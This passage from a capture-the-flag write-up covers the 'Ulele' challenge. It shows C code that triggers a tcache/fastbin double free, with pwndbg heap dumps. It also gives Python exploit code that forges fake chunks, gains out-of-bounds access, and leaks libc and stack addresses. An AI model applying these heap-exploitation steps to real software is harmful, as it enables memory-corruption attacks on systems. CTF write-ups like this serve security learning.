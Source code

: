 ```c
        malloc(0x48); // Pop from Tcache
    
    // Push a copy of the one in fast-bin into Tcache 
    free(list[0x7]); // Double Free
    /*
    pwndbg> heapinfo
    (0x20)     fastbin[0]: 0x0
    (0x30)     fastbin[1]: 0x0
    (0x40)     fastbin[2]: 0x0
    (0x50)     fastbin[3]: 0x5555555594c0 (overlap chunk with 0x5555555594c0(freed) )
    (0x60)     fastbin[4]: 0x0
    (0x70)     fastbin[5]: 0x0
    (0x80)     fastbin[6]: 0x0
    (0x90)     fastbin[7]: 0x0
    (0xa0)     fastbin[8]: 0x0
    (0xb0)     fastbin[9]: 0x0
                    top: 0x5555555595b0 (size : 0x20a50) 
        last_remainder: 0x0 (size : 0x0) 
                unsortbin: 0x0
    (0x50)   tcache_entry[3](1): 0x5555555594d0
    */
    double_free_2_oob(valid_chunk_0);
    puts(valid_chunk_1);
    // Link a fake chunk in
    
}
```

With this primitive, we are able to have oob access of the element list chunk on heap (adding chunks will trigger vector reallocation). Then, we can do arbitrary read to leak libc base address and the stack address. 


```python
...
for x in range(0xdf-20+21):
    add()

add(p64(0xdeadbeef)*9+flat([0x71,0x555555589-0x55555556c+(heap>>12),0])) # fakechunk to oob-write slot renew
for x in range(0x9):
    free(0x101+x)
for x in range(7):
    add()
free(0x101+8)
add(p64((heap>>12)^(0x5555555899c0-0x55555556c000+heap)))
add()
add(b'\0'*0x18+flat([0x3211,0x5555555899f0+8-0x55555556c000+heap,0x55555557add8-0x55555556c000+heap,0x5555555899f0+8-0x55555556c000+heap+0x10,0x5555555899d0-0x55555556c000+heap]))
show(0)
base = leak("Data: ")-0x1f2ce0-(0x7ffff7828000-0x7ffff7800000)
warn(hex(base))
free(2)
add(b'\0'*0x18+flat([0x3211,0x5555555899f0+8-0x55555556c000+heap,0x222200+base,0x5555555899f0+8-0x55555556c000+heap+0x10,0x5555555899d0-0x55555556c000+heap+0x10]))
show(0)
stack = leak("Data: ")
...
```


[0]: https://github.com/n132/CTF-Write-Up/tree/main/2024-Crew-CTF/Ulele